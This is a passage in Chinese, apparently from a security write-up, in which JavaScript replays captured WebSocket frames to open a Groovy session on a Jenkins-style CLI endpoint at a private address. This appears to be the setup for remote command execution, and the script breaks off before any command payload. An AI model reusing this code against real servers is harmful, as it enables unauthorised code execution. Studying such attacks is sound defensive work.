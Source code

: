 返回包

![图片](assets/1706497193-1d450f5741e8d98c6327886050c75ba4.png)

我们把这些流量用 js 模拟即可

```plain


  // WebSocket 的 URL，通常以 "ws://" 或 "wss://" 开头
var socketUrl = "ws://172.16.11.1:8081/cli/ws/";

// 创建 WebSocket 实例
var socket = new WebSocket(socketUrl);

// 监听连接建立事件
socket.addEventListener("open", (event) => {
    var goovyArray = new Uint8Array([0x00,0x00,0x06]);
    var groovyStrArray = new TextEncoder().encode("groovy");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x00,0x00,0x01]);
    var groovyStrArray = new TextEncoder().encode("=");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x02,0x00,0x05]);
    var groovyStrArray = new TextEncoder().encode("UTF-8");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x01,0x00,0x0b]);
    var groovyStrArray = new TextEncoder().encode("zh_CN_#Hans");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

     var goovyArray = new Uint8Array([0x03]);
```